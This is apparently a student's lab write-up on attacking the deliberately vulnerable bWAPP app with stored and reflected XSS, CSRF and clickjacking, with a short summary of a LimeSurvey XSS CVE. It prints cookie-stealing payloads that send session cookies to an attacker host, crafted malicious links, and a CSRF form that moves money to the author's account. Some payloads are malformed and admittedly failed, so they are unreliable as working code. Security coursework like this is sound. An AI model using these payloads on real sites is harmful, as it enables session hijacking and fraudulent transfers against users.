

# Web Application Security Lab 4 Writeup
### Olson Section 1
#### Ryan Cheevers-Brown


## XSS - Stored (Blog)

I'm starting by testing the functionality. I'm going to add a blog post, check the 'show all' box, and see what happens. 


This appears to be a simple comment box. 

Next, I'm going to try some basic javascript injection to steal a session cookie: 

```
This is a test of a potentially vulnerable comment block...<script>alert(document.cookie)/script>
```


We can see that the text box is vulnerable to injection. 

Unfortunately, I couldn't get it to do an injection with any variant of this payload:

```
<script src="http://10.0.1.40:9000?cookie="+document.cookie></script>
```

I even tried injecting it as an image:

```
<script>
    var i = document.createElement("img");
    i.src = "http://10.0.1.40:9000?cookie="+document.cookie;
</script>
```

But I was never able to get a connection back to my netcat shell. 

Investigating the source for the page reveals this: 


This *should* be a working Stored XSS request, but I am not sure why I'm not observing it work. 

## XSS - Reflected (GET)

I'm starting off by inputting a name to see what happens. 


It prints out "welcome Ryan Brain" below the text input boxes. Looks like it's concatenating the two strings, adding a "welcome", and returning the result when the page loads again. 

We can see that the parameters are reflected in the URL:


I'm going to try some basic HTML injection to see if the fields are vulnerable by printing my name in bold 

```
First: <b> Ryan </b> 
Last: Brain
```


We can see that my name came back bold, meaning that the page is properly encoding the HTML and it might be vulnerable to JS injection. 

I tested this by including some javascript to make an alert: 


This means that the field should be vulnerable to a reflected XSS attack with code similar to the following: 

First Name:
```
<script src="http://10.0.1.40:9000?cookie="+document.cookie></script>
```

This attack would be realized by getting a user to click a link structured like the following: 

```
http://link.to.bwapp.com/xss_get.php?firstname=%0AJohn%3Cscript%20src=%22http://link.to.attacker.com:9000?cookie=%22+document.cookie%3E%3C/script%3E%25lastname=Brown&form=submit
```

The payload (contained in the FirstName parameter) would reflect the user's session cookie to the IP specified at `link.to.attacker.com`. 

## XSS - Reflected (JSON)

I'm starting this test by examining the normal functionality. Searching for Iron Man shows that the movie exists. The name is reflected in both the web page and URL, meaning that this is potentially vulnerable to reflection attack. 


Let's inject a simple payload. 


That didn't work! I'm going to look at the page source to understand what's going on. 



This shows that the input string is already inside a JS tag. This means we just need to close everything that it's inside of to inject our javascript. Let's make a payload!

```
Iron Man "}]}'; alert(123)</script>
```

This results in working injectable Javascript!


This attack would be realized by getting a user to click a link structured like the following: 

```
http://link.to.bwapp.com/xss_json.php?title="]}]'%3b+http://link.to.attacker.com:9000?cookie=%22+document.cookie<%2Fscript>&action=search
```

The payload (title parameter) would reflect the user's session cookie to the IP specified at `link.to.attacker.com`. 

## CSRF (Transfer Amount)

Clientside Request Forgery is an attack where the client is tricked into performing some action on the behalf of the attacker, without knowlege of the client. We are going to use this technique to transfer 1000 EUR to my account, `#225360`. 

We are starting out by testing the form normally. 


It appears that the parameter data is GET encoded using the `account` and `amount` parameters. Therefore, we should be able to transfer money anywhere we want by manipulating these parameters and getting the client to click a link. 

We will generate HTML code with Github Copilot to do the CSRF exploit: 

```
<html>
  <body>
  <script> history.pushState('', '', '/')</script>
    <form action="http://link.to.bwapp.com/csrf_2.php">
      <input type="hidden" name="account" value="225360"/>
      <input type="hidden" name="amount" value="1000"/>
      <input type="hidden" name="action" value="transfer"/>
      <input type="submit" value="Submit Request"/>
    </form>
  </body>
</html>
```

When opened in a browser, this should cause a "Submit Form" button that transfers 1000 EUR to my account from the accounts of anyone logged into the banking application who clicks it. 

## Clickjacking (Movie Tickets)

Clickjacking is a vulnerability where you effectively trick a user into clicking something they did not intend to click. 

This is usually done by putting an iFrame over a portion of a web page with a confirmation button or some other affirmative button below the iFrame. 

My bWAPP installation does not come with the `/evil/clickjacking.htm` image that is supposed to be there. It is unclear why. 


According to resources on the internet, it looks like there's supposed to be some code on that page:

```
<iframe style="position:absolute; top:70px; width:1000px; height:1000px; 'src='../bWAPP/clickjacking.php" frameborder="0"></iframe>
```

And a separate image source:

```
http://localhost/images/free_tickets.png
```


I wasw able to write a basic HTML page (present in this repo as `clickjacking.html`) which embeds the iframe and attempts to get the user to click the button. I was having some difficulty with the session cookies, but the concept mostly works. I set the opacity of the BWapp iFrame to 50% for the second screenshot to show that the iframe embedding works. 


This HTML document would be emailed to a user during the workday, at a time when they would be logged into the web application that I am attempting to hijack. The goal is for the user to click on it and take the action I want, without user awareness of it. 

## XSS - Reflected (Back Button)

This vulnerability makes use of the referrer header. This header contains the address of the previous web page. The goal of this attack is to get a user to click a specially crafted link which contains the web address of a page I want the user to visit in the referrer header, and then get the user to click a back button to visit my web page. 

I began by grabbing the web requests in Burp Suite until I found one that contained the `referrer` field. 


I then changed this field to test if it was injectable. 


I then located it in the page source.


We can see that the button has been told to go back to the value I specified earlier. 

Next, I'm going to test if I can do JavaScript injection into this field. 


I made a small error in the setup which is why the payload changed. It fully worked the second time, I just didn't re-take screenshots. 

This is the JS payload embedded in the back button. 


Finally, this is the JavaScript alert showing up, showing that the field is javascript injectable and therefore XSS-able. 


The payload I would use would steal the session cookie with `document.cookie` and send it to my domain as seen in the earlier XSS examples. 

## LimeSurvey 3.17.13 - XSS (Stored, Reflected)

https://www.exploit-db.com/exploits/47386

CVE-2019-16172, CVE-2019-16173

This application is marketed as an open-source online survey tool, used to generate survey and send them out. It is a competitor to Google Forms and SurveyMonkey. 

Source: https://www.limesurvey.org/

The vulnerability present is a stored/reflected XSS vulnerability due to improper input and output validation. It allows the attacker to execute javascript with the permissions of the victim, allowing for easy privileged command injection, session cookie theft, and privilege escalation (among more). 

The vulnerability requires that the initial user has permissions to create a new survey group. The attacker then creates a survey group with a name like 

```
DeleteMe<svg/onload=alert(document.cookie)>
```

which will show up as `DeleteMe` in the web application. The javascript will be hidden. 

When a user with higher privileges comes along and deletes this survey group, it creates an alert with their session cookie. This would be exploited by changing the payload - instead of creating an alert, the attacker would silently ship the session cookie to a domain of their choosing. That payload looks like this:

```
DeleteMe<svg/onload=http://link.to.attacker.com:9000?cookie=%22+document.cookie>
```

This would deliver the compromised user's session cookie when the survey group is deleted. 